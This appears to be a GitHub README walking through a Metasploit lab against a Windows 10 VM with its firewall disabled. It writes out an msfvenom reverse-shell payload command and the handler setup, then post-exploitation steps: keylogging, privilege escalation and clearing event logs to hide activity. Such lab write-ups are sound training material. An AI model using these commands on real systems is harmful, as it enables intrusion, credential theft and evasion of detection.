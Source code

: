 <h1>Metasploit Penetration Test Lab</h1>

<img src="https://i.imgur.com/t8kIcdz.jpeg" align="center">
<p>In this lab, we utilize the Metasploit framework to exploit a vulnerable virtual machine to simulate a penetration test.</p>
<h2>Resources Used: </h2>
<p>- Kali Linux</p>
<p>- Metasploit</p>
<p>- Windows 10</p>
<p>- VMware Workstation Player</p>

<h2>Please note: this is for demonstration purposes only in a lab environment. Do not conduct these actions on any machines without clear permission.</h2>

<h2>1. Setting up Virtual Machines</h2>
<p>- This lab will require a virtual machine that runs Kali Linux, and another virtual machine that requires Windows 10. </p>
<p>- Head to VMWorksation Player and install it according to your actual physical machine (PICTURE Here)</p>
<img src=""/>
<p>- Once installed, download a Kali Linux ISO & Windows 10 ISO. We will use these files to let our virtual machine have the necessary operating system. Before you install, double-check the hash of the ISO to verify that it hasn’t been modified by anyone else other than the manufacturer.</p>
<p>- Launch VMWorkstation Player, and select “New”</p>
<p>- You can keep all of the default settings, but make sure to choose the correct OS, ISO file, and to make the Network type be bridged. Selecting “bridged” will allow both virtual machines to be on the same LAN as your physical machine. (PICTURE HERE) </p>
<img src=""/>
<p>- Once the configuration is complete, select "Launch/Play" on the Windows 10 machine, and complete the setup prompts. </p>
<p>- Once the setup is complete, go to the firewall settings and select off for all. This will be what makes the machine vulnerable in this lab environment. If this was a real penetration test, the firewall would most likely be turned on and it would take much more time and effort to try to find a vulnerability to exploit and gain access to the machine. </p>
<p>- Go to the command prompt and type in “ipconfig /all” and hit enter. Take note of what this VM's IP Address is and make sure it’s on the same subnet as your physical machine. (PICTURE HERE)</p>
<img src=""/>
<p>Select Start to run the Kali Linux virtual machine. You can select all of the defaults for the setup prompts. </p>

<h2>2. Configuring Metasploit</h2>
<p>- In the Kali Linux VM, select the logo on the top left, then scroll down to where it says “Exploitation Tools”. Select Metasploit to launch the terminal. (PICTURE HERE)</p>
<img src=""/>
<p>- It will ask for the password from the account you made for the VM, once entered Metasploit will start running its configuration.</p>
<p>- From here, you can explore many different exploits, payloads, stagers, & commands by using the “help” or “search” commands</p>
<p>- For this lab, we will be using the exploit called “exploit/multi/handler” which can be used for many different exploits in Metasploit</p>
<p>- Before we use this exploit, we need to get our payload onto the target system that will allow our exploit to be conducted successfully. </p>
<p>- In the msfconsole, type “msfvenom -p windows/meterpreter/reverse_tcp LHOST=(IP of Kali Linux Machine) LPORT=4444 -f exe > thisismalicious.exe” and hit enter.(PICTURE HERE)</p>
<img src=""/>
<p>- This command creates our payload into an executable file, which we will send over to the Windows 10 VM. </p>
<p>- In this lab environment, simply copy the file & paste it on the Windows 10 VM since the VM’s firewall/security protections are disabled. In a real penetration test, you most likely will not be able to do this. There are many options you can take, such as social engineering, sending a phishing email, etc.</p>
<p>- Once the executable is on the Windows 10 VM, go back to the Kali Linux terminal and enter “use exploit/multi/handler”. This will create a session in Metasploit and allow us to configure the exploit before running it.</p>
<p>- Enter “show options”, in which you will see that the exploit needs an LHOST, which will be the Kali Linux IP. The LHOST is the listener machine that receives communication from the executable file/vulnerable machine. </p>
<p>Enter “set LHOST (Kali Linux IP)”. Enter “show options" again to see the updated configuration. (PICTURE HERE) </p>
<img src=""/>

<h2>3. Exploiting the Vulnerable Windows 10 VM</h2>
<p>- Go back to the Windows VM and double-click the executable file</p>
<p>- On the Kali Linux terminal, enter “run”. You should see that the exploit has executed successfully and you are now in a meterpreter shell!
(PICTURE HERE)</p>
<img src=""/>

<h2>4. Using Meterpreter</h2>
<p>- Meterpreter can be used for a variety of functions in the post-exploitation realm of penetration testing. We can use meterpreter to create persistence, find other vulnerabilities within the victim machine, download sensitive files, etc.</p>
<p>- For now, we can background this session by selecting “ctrl + z” on the keyboard or by typing in “background”.</p>
<p>- Now that we have a session on the victim VM, we can use “post/multi/recon/local_exploit_suggester” (PICTURE HERE)</p>
<img src=""/>
<p>- Set the session to whatever the session number is listed, and then enter "run"</p>
<p>- Once complete, there are multiple exploits that Metasploit found that the victim VM may be vulnerable to. We can use one of these to accomplish tasks that could be beneficial to the penetration test. (PICTURE)</p>
<img src=""/>
<p>- If we go back to our session, we can run a variety of commands to get a lot of information from the VM. "Keyscan_start" & "Keyscan_dump" will start a keylogger on the victim VM and dump the input to our shell. (PICTURE)</p>
<img src=""/>
<p>- Try “getsystem” in the meterpreter shell. If successful, this will escalate our account’s privileges to the highest access, Authority. This will allow us to execute almost anything we want on the Windows VM. You can check the status of the account with “getuid”. (PICTURE)</p>
<img src=""/>
<p>- Note how in my instance, the "getsystem" command was unsuccessful, and my account is still an administrator. This is why we try to use the exploit suggester to see if there are vulnerabilities to escalate our privilege.</p>
<p>- Feel free to play around with the commands in meterpreter to see what it can accomplish. </p>
<p>- Once you have accomplished your tasks in the penetration test, you can even remove the logs of what you have done in Event Viewer to avoid detection. In the meterpreter shell, enter "clearev". You should see in Event Viewer that the logs are not appearing for what actions you have performed within the VM. (PICTURE) </p>
<img src=""/>
<p>- There is a lot more to Metasploit, but this is just a very basic overview of what this powerful tool can accomplish in the penetration testing environment!</p>
